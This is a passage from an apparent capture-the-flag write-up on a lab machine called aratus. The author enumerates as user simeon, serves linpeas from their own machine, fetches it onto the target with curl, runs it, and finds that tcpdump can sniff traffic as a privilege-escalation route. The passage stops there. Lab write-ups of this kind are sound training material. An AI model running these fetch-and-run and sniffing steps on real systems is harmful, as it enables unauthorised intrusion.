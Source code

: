 ```
[simeon@aratus ~]$ ls
chapter1  chapter3  chapter5  chapter7  chapter9
chapter2  chapter4  chapter6  chapter8  message-to-simeon.txt
[simeon@aratus ~]$ cat message-to-simeon.txt 
Simeon,
```
Nothing in the landing directory and we couldn't look at the other's directories.

I try 
```
[simeon@aratus tmp]$ find / -name simeon -type f 2>/dev/null
```
but nothing pops up besides /var/spool/mail/simeon

sudo -l also doesn't work since it says I can't run sudo as simeon on aratus.

I attempted to upload linpeas to the machine by hosting a simple server in my /opt directory

```
python3 -m http.server 8000
```
and then trying wget on the aratus machine, but it turns out it doesn't have wget.

So we just use curl instead.

```
[simeon@aratus tmp]$ curl 10.9.13.203:8000/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  744k  100  744k    0     0   627k      0  0:00:01  0:00:01 --:--:--  628k
[simeon@aratus tmp]$ ls
linpeas.sh  systemd-private-88911423075e417789861259a76c8227-httpd.service-WGMALJ
[simeon@aratus tmp]$ chmod +x linpeas.sh
```

Now that we have linpeas and we added permissions for it to be executeable we can go ahead and run it.

Linpeas found as 95% PE vector:
```
Files with capabilities (limited to 50):
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip


/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/simeon/.local/bin:/home/simeon/bin                                                                              
New path exported: /usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/simeon/.local/bin:/home/simeon/bin:/sbin:/bin
```

```
╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sniffing              
You can sniff with tcpdump! 
```

Okay, so we can try and see if there's anything going on.


[WARNING]: Consider using 'become', 'become_method', and 'become_user' rather than running sudo